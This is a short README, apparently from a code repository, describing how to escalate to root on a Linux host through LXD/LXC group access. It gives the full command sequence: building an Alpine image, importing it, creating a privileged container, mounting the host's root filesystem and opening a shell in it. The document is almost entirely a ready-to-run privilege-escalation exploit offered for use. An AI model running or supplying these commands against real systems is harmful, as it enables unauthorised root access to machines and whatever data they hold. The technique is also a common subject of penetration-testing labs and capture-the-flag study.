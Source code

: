 # lxc privescalation

This privescalate to root if you have access to run lxc. 
Note build alpine container first is only required if server is blocking internet.

```sh
$ git clone https://github.com/saghul/lxd-alpine-builder
$ ./build-alpine -a i386
$ lxc image import ./alpine.tar.gz --alias alpine
$ lxc image list
$ lxc init alpine privesc -c security.privileged=true
$ lxc config device add privesc whatever disk source=/ path=/mnt/root recursive=true
$ lxc exec privesc /bin/sh
```
